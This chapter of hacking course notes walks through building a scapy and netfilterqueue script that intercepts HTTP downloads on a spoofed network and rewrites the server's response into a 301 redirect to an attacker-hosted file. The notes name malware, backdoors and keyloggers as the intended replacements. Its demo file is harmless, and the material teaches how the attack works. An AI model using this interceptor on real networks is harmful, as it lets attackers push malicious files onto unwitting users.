

## 08 File Interceptor

### Intercepting Packets
* in the last chapter, we modified data in the DNS layer of the packets
* in this chapter, we will learn to modify the HTTP data
* HTTP stands for "HyperText Transfer Protocol" and is at the foundation of the world wide web
* course content: we will manipulate a download and replace the downloaded file
* the replaced file can be anything the hacker wants: malware, backdoor, keylogger

### Filtering Traffic-Based on the Port 
Requimrents
* the program should detect that the targeted user wants to download something
* then, we want to serve a different file (that we'll also build)

Initial Considerations
* to handle the packets with HTTP layer, we'll build off of the `process_packet` function from the last chapter (built with `scapy` and `netfilterqueue`)
* remember that each packet send over the internet has the following main layers
    * IP, TCP, UDP & raw-data
    * HTTP requests and responses are in the raw-data layer of `scapy`
    * some of the raw-data may be compressed
    * we have to find a way to differentiate requests and responses 

HTTP - Port 80
* understanding HTTP requests/responses is essential for understanding how websites and APIs works, and thus an essential hacking skill 
* let's have a closer look at the TCP-layer
    * if the `dport` (d-port) is `http`, then its a request
    * if the `sport` (s-port) is `http`, then its a response
    ```
    ###[ TCP ]### 
        sport  = http     # source port
        dport  = 40646    # destination port
    ```
    * we can translate this rule into python easily
    * port `80` is the default http-port

```python
def process_packet(packet: Packet):
    scapy_packet = scapy.IP(packet.get_payload())

    if scapy_packet.haslayer(scapy.Raw) and scapy_packet.haslayer(scapy.TCP):
        if scapy_packet[scapy.TCP].dport == 80:
            print("HTTP Request")
            print(scapy_packet.show())
        elif scapy_packet[scapy.TCP].sport == 80:
            print("HTTP Response")
            print(scapy_packet.show())

    packet.accept()
```

### Analysing HTTP Requests
* under the hood of your browser, the download is a HTTP GET request (for a certain file)
* the crucial information is inside the packet's raw-data layer "load"
    * contains the filepath and host-name from which to get the file
    * joining the host-name + filepath gives us a direct download link
* now if an txtcutable is mentioned there, then we know the user wants to download a program
    * of course, this can be any common file extension to detect a file download
    * malware can also be hidden in PDFs or images, but our example will be `.txt`
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())

        if scapy_packet.haslayer(scapy.TCP) and scapy_packet.haslayer(scapy.Raw):
            if scapy_packet[scapy.TCP].dport == 80:
                print("HTTP Request")
                if ".txt" in scapy_packet[scapy.Raw].load:
                    print("txt Request")
                    print(scapy_packet.show())
        ...
        packet.accept()
    ```
* but replacing the downloaded file is not as easy as inserting a different download link
* to circumvent security mechanisms, we must establish a new TCP handshake
* OR we intercept the appropirate response to this GET request because it already contains a valid TCP handshake

### Matching HTTP Request & Response
* the positive response to the HTPP GET requests contains in the packet's raw-data layer "load" the status code `200 OK`
    * these codes are standardized: https://en.wikipedia.org/wiki/List_of_HTTP_status_codes
    * such a lists is also commonly avaiable in any web-development library
* we also need to match the HTTP GET request to its appropriate HTTP response
    * __packets are matched__ if the request's `ack` number is the same the reponse's `seq` number
    ```
    ###[ TCP ]###   / Request
        sport     = 57530
        dport     = http
        seq       = 1702117631
        ack       = 3041085300 *
    [...]
    ###[ TCP ]###   / Response
        sport     = http
        dport     = 57530
        seq       = 3041085300 *
        ack       = 1702117631
    ```
* we need to log the flow of packets to find these matching numbers
    * create a global variable that tracks the `ack` numbers (global means outside the function's scope)
    * only add an `ack` number, if a HTTP Request is made (that we want to match)
    * check if the `seq` number is in the `ack`-list, if a HTTP Response is made
    ```python
    FILE_END = b".txt"
    ACK_LIST = []

    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())

        if scapy_packet.haslayer(scapy.TCP) and scapy_packet.haslayer(scapy.Raw):
            if scapy_packet[scapy.TCP].dport == 80:
                if FILE_END in scapy_packet[scapy.Raw].load:
                    print("txt Request")
                    ACK_LIST.append(scapy_packet[scapy.TCP].ack)
                    print(scapy_packet.show())
            elif scapy_packet[scapy.TCP].sport == 80:
                if scapy_packet[scapy.TCP].seq in ACK_LIST:
                    ACK_LIST.remove(scapy_packet[scapy.TCP].seq)
                    print("Response replacement")
                    print(scapy_packet.show())

        packet.accept()
    ```
    * after finding a match between request and response, we want to delete the ID number (so that it will not interfere with future request/reponse matches)

### Manipulating the Response
Redirecting Responses
* our goal is to replace the requested file and serve the target a different file
* since we want to __redirect__ the client, we should use a different response code [3xx Redirection](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes#3xx_redirection)
* the most appropriate choice is the _301 Moved Permanently_
    * Client request:
        ```
        GET /index.php HTTP/1.1
        Host: www.example.org
        ```
    * Server response:
        ```
        HTTP/1.1 301 Moved Permanently
        Location: https://www.example.org/index.asp
        ```

Modifying the Payload
* we can use this example from Wikipedia to build our modified response
    * the load in the raw-layer is just string
    * in our modified load, we insert the download link to our executable
    ```python
    MODIFIED_LOAD = "HTTP/1.1 301 Moved Permanently\nLocation: https://www.win-rar.com/fileadmin/winrar-versions/winrar/winrar-x64-700.exe"

    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        if scapy_packet[scapy.TCP].seq in ACK_LIST:
            ACK_LIST.remove(scapy_packet[scapy.TCP].seq)
            print(f"{timestamp()} Replacing File")
            print(scapy_packet.show())
            scapy_packet[scapy.Raw].load = MODIFIED_LOAD
    ```

Converting the Packet
* since the response was modified, we also need to re-calculate the following fields
    * IP.len, IP.chksum, TCP.chksum
    * by removing them, `scapy` will re-calculate them 
    * confer to the chapter on DNS spoofing
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        scapy_packet[scapy.Raw].load = MODIFIED_LOAD
        del scapy_packet[scapy.IP].len
        del scapy_packet[scapy.IP].chksum
        del scapy_packet[scapy.TCP].chksum
        # these values are now recalculated automatically
    ```
* lastly, we need to convert the scapy packet back 
    * at the beginning of the `process_packet` function, we converted the packet to scapy format for easier analysis and manipulation
    * at the end, we need to convert it back to the original format, so it can processed in the queue 
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        packet.set_payload(str(scapy_packet))
        packet.accept()
    ```
Testing the Function
* if you have clicked the download link beforehand, the download may be cached 
* delete your browser history and cache to ensure proper functioning of the script
* you can use this [website](http://tux.rainside.sk/devuan/archive/devuan_ascii/desktop-live/) to intercept `txt` files 

### Intercepting and Replacing on the Network
Creating an Evil File
* using the apache server that we can host on Kali to deliver a malicious file
    * since this is in `root`, you have to use the super-user
    ```
    cd var/www/html
    echo "Hello,\nyou have been hacked!\nxD > evil.txt
    service apache2 start
    ```
Running MIM Programs
* redirect packets by setting `iptables` rules
* now start the `arp_spoofer.py` and the `replace_download.py`
* the results should look like this:

 
